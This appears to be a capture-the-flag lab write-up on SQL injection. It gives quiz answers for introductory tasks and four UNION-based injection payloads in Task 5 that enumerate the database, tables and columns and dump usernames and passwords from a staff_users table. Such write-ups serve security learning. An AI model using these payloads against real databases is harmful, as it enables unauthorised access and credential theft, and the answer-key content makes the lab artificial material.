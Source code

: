 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

## Task 1: Brief
#### - What does SQL stand for?
	- Structured Query Language
	
## Task 2: What is a Database?
#### - What is the acronym for the software that controls a database?
	- DBMS
	
#### - What is the name of the grid-like structure which holds the data?
	- Table
	
## Task 3: What is SQL?
#### - What SQL statement is used to retrieve data?
	- SELECT
	
#### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
#### - What SQL statement is used to add data?
	- INSERT

## Task 4: What is SQL Injection?
#### - What character signifies the end of an SQL query?
	- ;

## Task 5: In-Band SQLi?
Deploy the machine, then use the given commands in the task.
1) This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
2) This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
3) This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
4) This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

